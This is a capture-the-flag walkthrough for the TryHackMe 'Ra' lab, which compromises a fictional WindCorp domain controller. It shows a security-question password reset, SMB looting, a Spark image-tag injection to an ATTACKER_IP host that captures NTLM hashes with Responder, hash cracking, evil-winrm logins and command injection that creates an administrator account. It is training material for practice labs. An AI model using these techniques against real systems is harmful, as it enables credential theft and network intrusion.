 # [Ra](https://tryhackme.com/room/ra)

## You have found WindCorp's internal network and their Domain Controller. Can you pwn their network?

# Ra

## You have gained access to the internal network of WindCorp, the multibillion dollar company, running an extensive social media campaign claiming to be unhackable (ha! so much for that claim!). Next step would be to take their crown jewels and get full access to their internal network. You have spotted a new windows machine that may lead you to your end goal. Can you conquer this end boss and own their internal network?

### Flag 1

1. Start by scanning all ports on the target to identify open services

```bash
nmap -p- <TARGET_IP>
```

[SCREEN01]

2. When examining the network traffic in the browser developer tools on `<TARGET_IP>:80`, you'll notice failed requests to `fire.windcorp.thm:9090`. This indicates there's another service running on a different subdomain. Add both domains to your `/etc/hosts` file

```bash
echo "<TARGET_IP> fire.windcorp.thm" >> /etc/hosts
echo "<TARGET_IP> windcorp.thm" >> /etc/hosts
```

[SCREEN02]

3. Navigate to `fire.windcorp.thm:9090` and examine the password reset functionality. One of security questions is: **"What is/was your favorite pet's name?"**. Back on the main website (`<TARGET_IP>`), examine the images. One image shows Lily with her dog and is named `lilyLeAndSparky.jpg`. This suggests "Sparky" is the pet's name we need.

[SCREEN03]

4. Use the password reset form at `fire.windcorp.thm/reset.asp`:
   - Username: `lilyle`
   - Security answer: `Sparky`
   - New password: `ChangeMe#1234`

[SCREEN04]

[SCREEN05]

5. Now that we have valid credentials, enumerate SMB shares and download available files

```bash
smbclient -L <TARGET_IP> -U lilyle
smbclient //<TARGET_IP>/Shared -U lilyle
ls
prompt off
mget *
```

[SCREEN06]

[SCREEN07]

6. This downloads all files from the Shared directory, including our first flag.

```bash
cat Flag\ 1.txt
```

[SCREEN08]

---

### Flag 2

1. From the SMB share, we obtained a Spark client installer. Install it and configure for the attack

```bash
sudo dpkg -i spark_2_8_3.deb
spark
```

2. Go to **Advanced** settings and check:
   - **Accept all certificates**
   - **Disable certificate hostname verification**

This allows us to connect despite certificate issues.

[SCREEN09]

3. Configure the connection:
   - Username: `lilyle`
   - Domain: `windcorp.thm`
   - Password: `ChangeMe#1234`

[SCREEN10]

4. If Spark crashes due to audio system problems, install required packages

```bash
sudo apt install -y pulseaudio alsa-utils libasound2-dev
pulseaudio --start
```

5. We'll exploit a known vulnerability in Spark client that allows capturing NTLM hashes through image injection. Reference: https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md

6. Start Responder to capture NTLM authentication attempts

```bash
sudo responder -I tun0
```

7. In the Spark chat, send an image tag that points to your attacking machine: `<img src="http://<ATTACKER_IP>/test.jpg">`. When other users view this message, their clients will attempt to authenticate to your machine.

8. Responder captures the NTLM hash from user `buse`. Save it to a file

```bash
echo "buse::WINDCORP:581eb034fb28c39c:54A0D21F2C7F9C9FC662887D404ADBE6:01010000000000003016F4F0AEBAD6019F1E18DD6C6FF8DD000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000D06AF3C0BE5C4909A34ED0E1314D4F4E9E879FB75EC17102D80D7E32C45E88740A00100000000000000000000000000000000000090000000000000000000000" > hash
```

9. Use John the Ripper to crack the captured hash
   - This reveals the password: `uzunLM+3131`

```bash
john hash --wordlist=/root/Tools/wordlists/rockyou.txt
```

[SCREEN11]

10. Use the cracked credentials to connect via WinRM and retrieve Flag 2

```bash
evil-winrm -i windcorp.thm -u buse -p 'uzunLM+3131'
cd C:\Users\buse\Desktop
dir
type 'Flag 2.txt'
```

[SCREEN12]

---

### Flag 3

1. Explore the system to find automation scripts that might be exploitable

```bash
cd ../../../
cd scripts
dir
more checkservers.ps1
```

This reveals a PowerShell script that runs periodically and processes a file owned by user `brittanycr@windcorp.thm`.

[SCREEN13]

2. Since we have access through our current session, reset brittanycr's password

```bash
net user brittanycr ChangeMe#1234
```

3. Create a payload that will add a new administrative user when the script executes

```bash
echo 'net user sid ChangeMe#1234 /add;net localgroup Administrators sid /add' > hosts.txt
```

4. Use SMB to upload our malicious file to brittanycr's directory where the script will process it

```bash
smbclient //windcorp.thm/Users -U brittanycr ChangeMe#1234
cd brittanycr
put hosts.txt
```

5. Wait for the scheduled script to execute, then connect as the newly created administrative user

```bash
evil-winrm -i windcorp.thm -u sid -p 'ChangeMe#1234'
cd ..
more Flag3.txt
```
